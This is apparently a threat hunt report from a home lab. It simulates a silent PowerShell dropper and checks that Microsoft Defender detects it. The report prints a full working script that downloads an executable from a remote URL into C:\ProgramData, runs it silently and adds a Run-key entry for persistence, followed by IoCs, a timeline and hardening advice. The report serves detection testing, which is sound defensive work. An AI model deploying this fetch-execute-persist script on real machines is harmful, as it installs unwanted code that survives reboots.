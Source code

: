 # Threat Hunt Report: Silent PowerShell Dropper with Persistence

## 1. Executive Summary
This hunt investigated potential adversary behavior involving PowerShell one-liners used to download and silently install executables into `C:\ProgramData\`, followed by persistence creation via Windows Run keys. The objective was to validate whether this technique was present in the environment and to assess the effectiveness of Microsoft Defender detections.

**Result:** The scenario was successfully simulated in a controlled VM environment. Indicators were captured in Microsoft Defender Advanced Hunting queries, demonstrating the ability to detect this type of malicious activity.

---

## 2. Scope
- **Environment:** Windows 10 VM onboarded into Microsoft Defender for Endpoint
- **Timeframe:** Past 7 days
- **Data sources:**
  - DeviceProcessEvents
  - DeviceNetworkEvents
  - DeviceFileEvents
  - DeviceRegistryEvents

---

## 3. Hypothesis
If an adversary abused PowerShell to download and silently execute an `.exe` from the internet, we should observe:
1. PowerShell execution with suspicious command-line parameters.
2. File creation of an executable in `C:\ProgramData`.
3. Silent execution of that file with `/S` or `/quiet` flags.
4. Registry persistence written to `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run`.

---

## 4. Actions Performed
1. **Simulation:**
```powershell
# Lab script using GitHub release URL
$uri = "https://github.com/charliecash310/silent-dropper-lab/releases/download/v1.0/7z2501-x64.exe"
$out = "C:\ProgramData\7z2408-x64.exe"

Write-Host "Testing connectivity to $uri ..."
try { $uriObj = [uri]$uri } catch { Write-Error "Invalid URI"; exit 1 }

# Test connection (HEAD)
try {
    $r = Invoke-WebRequest -Uri $uri -Method Head -UseBasicParsing -TimeoutSec 15 -ErrorAction Stop
    Write-Host "HEAD OK: $($r.StatusCode)"
} catch {
    Write-Warning "HEAD failed: $($_.Exception.Message) -- will try GET"
}

# Try download
try {
    Write-Host "Downloading via Invoke-WebRequest..."
    Invoke-WebRequest -Uri $uri -OutFile $out -UseBasicParsing -TimeoutSec 120 -ErrorAction Stop
    Write-Host "Downloaded to $out"
} catch {
    Write-Warning "Invoke-WebRequest failed: $($_.Exception.Message)"
    try {
        Write-Host "Trying BITS fallback..."
        Start-BitsTransfer -Source $uri -Destination $out -ErrorAction Stop
        Write-Host "BITS download completed"
    } catch {
        Write-Error "BITS failed: $($_.Exception.Message). Exiting."
        exit 1
    }
}

# Confirm file
if (-not (Test-Path $out)) { Write-Error "Download didn't produce file. Exiting."; exit 1 }

# Optional: compute SHA256 for record
try { Get-FileHash -Path $out -Algorithm SHA256 } catch {}

# Run silently (for installers that accept /S)
try {
    Start-Process -FilePath $out -ArgumentList "/S" -Wait -ErrorAction Stop
    Write-Host "Process executed (silent argument)."
} catch {
    Write-Warning "Start-Process failed (maybe not an installer): $($_.Exception.Message)"
}

# Persistence (HKCU Run key)
try {
    New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value $out -PropertyType String -Force
    Write-Host "Created Run key -> $out"
} catch {
    Write-Warning "Failed to create Run key: $($_.Exception.Message)"
}

   ```

2. **Hunting Queries Executed:**
   - Suspicious PowerShell execution (DeviceProcessEvents)
   - Network connections initiated by PowerShell (DeviceNetworkEvents)
   - File creation in ProgramData (DeviceFileEvents)
   - Silent installer execution (DeviceProcessEvents)
   - Registry Run-key persistence (DeviceRegistryEvents)
   - Unified timeline correlation (union query)

---

## 5. Findings
- **Process Evidence:** PowerShell executed with `Invoke-WebRequest` and `/S` flags.
- **Network Evidence:** Outbound HTTP request to `<labhost>` from PowerShell.
- **File Evidence:** Creation of `7z2408-x64.exe` under `C:\ProgramData`.
- **Execution Evidence:** Silent execution of the dropped file.
- **Registry Evidence:** Run key persistence created for `Updater` pointing to the executable.

---

## 6. Indicators of Compromise (IoCs)
- **File Path:** `C:\ProgramData\7z2408-x64.exe`
- **Registry Key:** `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\Updater`
- **Process CommandLines:**
  - `$uri = "https://github.com/charliecash310/silent-dropper-lab/releases/download/v1.0/7z2501-x64.exe"`
  - `$out = "C:\ProgramData\7z2408-x64.exe"`
  - `C:\ProgramData\7z2408-x64.exe /S`
- **Network Indicators:**
  - Remote URL: `https://<labhost>/7z2408-x64.exe`
  - RemoteIP: `<labhost IP>`

---

## 7. Timeline of Events
| Time (UTC) | Evidence Type | Details |
|------------|---------------|---------|
| T0         | Process       | PowerShell executed with download command |
| T0+1m      | Network       | HTTP GET to `"https://github.com/charliecash310/silent-dropper-lab/releases/download/v1.0/7z2501-x64.exe"` |
| T0+2m      | File          | File created in `C:\ProgramData` |
| T0+3m      | Process       | Silent execution of downloaded EXE |
| T0+4m      | Registry      | Run key persistence created |

---

## 8. Recommendations
- **Preventive Controls:**
  - Enable Attack Surface Reduction (ASR) rules:
    - Block process creations from PS/Command Prompt
    - Block executable content from email/webmail downloads
  - Restrict write access to `C:\ProgramData\`.
  - Enable PowerShell logging (ScriptBlock and Module).
- **Detection Enhancements:**
  - Create a custom detection rule for silent installers executed from ProgramData.
  - Create an alert for Run-key persistence referencing executables.
- **Response Playbook:**
  - Isolate affected host.
  - Remove malicious file and registry entry.
  - Reset credentials if compromise suspected.
  - Conduct mailbox review for related phishing attempts.

---

## 9. Conclusion
This hunt successfully validated detection coverage for a common attacker TTP (T1059.001 – PowerShell, T1547.001 – Registry Run Keys/Startup Folder). The environment is capable of identifying these behaviors, and further improvements can be made by operationalizing the detection rules into continuous monitoring.

---

## 10. Appendices
- **Screenshots:** Attach Advanced Hunting query results here.
- **KQL Queries:** Provided in the Threat Hunt Scenario README.
- **MITRE ATT&CK Mapping:**
  - **T1059.001** – PowerShell
  - **T1105** – Ingress Tool Transfer
  - **T1547.001** – Registry Run Keys/Startup Folder
